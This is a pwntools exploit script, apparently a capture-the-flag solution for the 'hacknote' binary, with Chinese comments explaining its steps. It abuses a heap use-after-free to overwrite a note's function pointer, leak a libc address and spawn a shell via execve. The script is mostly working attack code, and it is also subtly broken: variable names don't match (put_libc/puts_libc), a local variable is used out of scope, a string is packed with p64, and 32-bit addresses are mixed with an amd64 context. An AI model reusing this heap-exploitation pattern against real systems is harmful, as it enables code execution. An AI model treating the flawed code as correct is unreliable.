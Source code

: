 #我想做的是本地复现，所以会和原来的exp略有不同
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
io = process('./hacknote')
elf = ELF('./hacknote')
put_got = 0x0804A024
put_func = 0x0804863B
def add(size,note_size):                #这里通过把所有的函数都列出来，更方便的进行菜单级的操作
    io.send(b'1')
    io.recvuntil('size :')
    io.send(size)
    io.recvuntil('Content :')
    io.send(note_size)
def delete(index):
    io.send(b'2')
    io.recvuntil('Index :')
    io.send(index)
def exceve(index):
    io.send(b'3')
    io.recvuntil('Index :')
    io.send(index)

def leak():
    add(b'32',b'a'*16)
    add(b'32',b'a'*16)                      #这里malloc了两个chunk，为以后的uaf作基础
    delete(b'0')
    delete(b'1')                            #这里free掉了两个chunk，但此时的指针还尚未NULL，而此时这两个chunk的指针还依然指向原来的两个chunk处，由于这两个指针的地址大小共为16Byte所以一会就再申请16Byte大小的chunk时，就能导致uaf漏洞辣。
    add(b'16',p64(put_got)+p64(put_func))
    exceve(b'0')
    put_libc =u64(io.recv(8))
    Libc = LibcSearcher('_puts',put_libc)
    libc_base = puts_libc - Libc.dump('_puts')
    libc_execve = libc_base + Libc.dump('execve')

def pwn():
    add(b'32',b'a'*16)
    add(b'32',b'a'*16)                      #这里malloc了两个chunk，为以后的uaf作基础
    delete(b'0')
    delete(b'1')                            #这里free掉了两个chunk，但此时的指针还尚未NULL，而此时这两个chunk的指针还依然指向原来的两个chunk处，由于这两个指针的地址大小共为16Byte所以一会就再申请16Byte大小的chunk时，就能导致uaf漏洞辣。
    add(b'16',p64('||sh')+p64(libc_execve))      #这里的'||sh'是因为此时的函数调用(看IDA里的)的规则是函数地址调用的方式进行调用，此时即为&(libc_execve)(libc_execve||sh),而因为这时候execve作为函数是无法调用他自己地址这样的参数的(exevce(&libc_exevce)这样的调用是无效的),所以加一个||sh表示或者也可以execve(sh)


leak()
pwn()
io.interactive()
